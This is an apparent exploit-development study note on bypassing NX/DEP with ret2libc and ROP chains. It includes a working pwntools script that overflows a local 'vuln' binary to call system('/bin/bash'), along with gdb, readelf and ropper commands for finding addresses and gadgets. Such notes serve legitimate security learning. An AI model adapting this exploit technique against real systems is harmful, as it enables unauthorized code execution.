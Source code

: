 # No eXecute / Data Execution Prevention

## ret2libc

Check if the target binary is using `libc` with the following commands:  
`ldd <binary>`  
or  
`vmmap` - when inside gdb  

List functions provided by your systems libc:  
`nm -D /lib/$(uname -m)-linux-gnu/libc-*.so | grep -vw U | grep -v "_" | cut -d " " -f 3`  

libc, or any other library, is a list of functions that reside at a known offset from the library base.  
If you know the library base and the library version, you will also know the target function's address.  

*NX prevents execution from the stack but having arguments there is fine*  

Steps to exec a function in libc:  
1. find interesting function to spawn a shell (System, Exec* (execl, execle, execlp, execve, execve, etc...))
2. Set up the stack
3. Overwrite EIP/RIP with the functions address

Stack setup:  
1. Offset to EIP
2. Address of the target function
3. Return address to be restored after executing the function, i.e. exit() (or anything if we don't care about a graceful exit)
4. Arguments for the target function

### System() Example
No ASLR  
---

From the man pages:  
`int system(const char *cmd);`  

Find system()'s offset from the libc base  
`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"`  
The address provided in the second column is the offset  
Open gdb while debugging the target binary and run: `vmmap libc`. Choose one which has "x" permissions  
Add the system() offset and the executable libc base to find system()'s address.  

If the above does not work, an alternative is `p system` in gdb.  
*repeat for exit() if looking to exit gracefully*  

System() requires a pointer to the string as an argument, not the string itself. Need to find "/bin/bash" or similar in the binary.  
In gdb: `search /bin` to find instances of shells  
Try to use addresses from libc  

**Example exploit:**  

```python3
#!/usr/bin/env python3
from pwn import *
io = process("./vuln")
offset = b"A" * 520
target_func = p64(0x7ffff7e17330)   # system @ 0x7ffff7e17330
ret_addr = p64(0x7ffff7e09590)    # exit @ 0x7ffff7e09590
sys_arg = p64(0x7ffff7f61031)   # Argument to system() "/bin/bash" @ 0x7ffff7f61031

payload = offset + target_func + ret_addr + sys_arg
print(payload)

io.sendline(payload)
io.interactive()
```

If you need to pass as a command line arg you can use `(cat payload.txt; cat) | ./vuln`  

## ROP Chains

Pwntools ROP documentation: <https://docs.pwntools.com/en/latest/rop/rop.html>  
<https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md>  
Stephen Sims - Return Oriented Shellcode (SANS SEC760 Content)  
<https://www.youtube.com/watch?v=7BMyVvYv5d0>  
Automate finding gadgets <https://github.com/packz/ropeme>  

Overflow a buffer to control the EIP/RIP.  
From the EIP/RIP onwards, place the address of the instructions you are using and any values that need to be popped into registers, followed by an `int 0x80` toswitch to kernel mode and execute the system call.  

You can view the available gadgets in a program with `ropper`  
E.g. `ropper -f vuln` to view all of the gadgets in a binary.  


**Calling execve():**  
- AL register needs to hold 0x0b
- BX register needs to hold a pointer to your arg for the system call
- CX register points to the arg vector ARGV pointer array
- DX register points to the ENVP array (Environment Variable Pointer)

If the program has an mmap() function, you need to find rop gadgets **after** the mmap() has occurred to ensure the gadgets do exist in memory.  
- You can then use `ltrace` to view the address where mmap is mapped and add instuction offsets
- Validate by hitting a breakpoint in gdb and addid the 2 values, then `x/i $addr`





